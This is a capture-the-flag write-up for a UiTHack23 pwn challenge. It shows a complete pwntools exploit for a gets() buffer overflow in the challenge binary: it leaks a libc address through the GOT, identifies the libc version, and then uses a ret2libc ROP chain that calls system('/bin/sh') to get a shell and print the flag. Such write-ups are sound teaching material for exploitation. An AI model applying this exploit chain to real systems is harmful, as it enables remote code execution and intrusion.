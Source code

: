 > # Pwn - Remote tamagOtchi Pet
> > Pwn - 500pts
>
> You might remember the Tamagotchi from the late 90's or early 2000's. Good news, we have improved the tamagotchi by putting everyone's favourite animal on the web so you don't loose it!
>
> Here's your [tamagotchi](src/tamagotchi)
>
> Connect with netcat to play with your tamagotchi
> ```command
> $ nc motherload.td.org.uit.no 8009
> ```
>
> The flag is located in the home directory on the server.

## Writeup
Looking at the challenge text we see that we can expect this to be a ROP-challenge (capitalized letters in challenge name). Another way to see this is a ROP-challenge is that we need to get a shell to view the flag, and does not have function clearly giving us the shell.

To get a shell on the server we need the following:
- The offset to the rip-register
- The libc version being used by the server
- The address of the *system()* command so that we can call `/bin/sh`

Looking through the source code we see that `gets()` have been used two places in the code, and as we know this indicates a buffer overflow. We choose to exploit the one in the `feed()` function as it requires less user-input to get there.

### Finding the offset
As in the mp3_player challenge we can find the offset with [find_offset.py](find_offset.py)
```command
$ python3 find_offset.py
[+] Parsing corefile...: Done
[+] Offset is 40
```

### Finding the libc
To find the libc version used by the server we can leak the address of one or multiple functions that are loaded into the GOT (global offset table). <br>
This can be done by overflowing the buffer *gets()* writes to, and call *puts()* or *printf()* to print a function address to the terminal. <br>
The following ROP-chain would look like this
```python
from pwn import *

context.arch = "amd64"
elf = ELF("./tamagotchi", checksec=False)
p = elf.process()

offset = 40
# Create the ROP chain to overflow the buffer with
rop = ROP(elf)
rop.raw(b"A"*offset)
rop.puts(elf.got["puts"])
rop.call(elf.symbols["feed"])

# Send the payload
p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(rop.chain())
p.recvuntil(b"\n\n")
```
Overflowing the buffer with this payload will make the program print the address of the *puts()* function for us (which we can convert from bytes to hex)
```python
puts_leak = u64(p.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info(f"Puts address found: {hex(puts_leak)}")
```
```command
$ python3 exploit.py
<snip>
[*] Loaded 14 cached gadgets for './tamagotchi'
[*] Puts address found: 0x7f26cebb4420
<snip>
```

Knowing the address in libc for the *puts()* function we can look up which version of libc it is with e.g [libc.rip](https://libc.rip/). Multiple possible versions show up here, so we could leak the address of another function to make sure we get the correct one by changing from the puts function to another function in the GOT (e.g printf).
```python
rop.puts(elf.got["printf"])
```

We find out that the libc version being used is (both works)
```
libc6_2.31-0ubuntu9.8_amd64
libc6_2.31-0ubuntu9.9_amd64
```

### Getting shell
Knowing the libc version we now can call `system("/bin/sh")` to get a shell on the box.

To do such we load in the libc into our exploit script, and set the base address of the libc so that it matches our puts leak.
```
libc = ELF("./libc.so", checksec=False)
libc.address = puts_leak - libc.symbols["puts"]
```

We can then craft a ROP-chain calling `system("/bin/sh")` for us when we overflow the same buffer once again (remember that we called the *feed()* function at the end of our first ROP-chain). Note that we need the ret-instruction in out ROP-chain to maintain stack-alignment, or else the payload won't work.
```python
ret_addr = rop.find_gadget(["ret"])[0]
rop = ROP(libc)
rop.raw(b"A"*offset)
rop.raw(p64(ret_addr))
rop.system(next(libc.search(b"/bin/sh")))

p.recvuntil(b">> ")
p.sendline(rop.chain())
p.interactive()
```
```command
$ python3 exploit.py
[*] Loaded 14 cached gadgets for './tamagotchi'
[*] Puts address found: 0x7f6e88316420
[*] Loaded 196 cached gadgets for './libc.so'
[*] Switching to interactive mode
Your fed your pet with AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a@
You pet is full

$ ls
flag.txt
tamagotchi
$ cat flag.txt
UiTHack23{t4ma_G0tcha_5h3ll}
```
```
UiTHack23{t4ma_G0tcha_5h3ll}
```
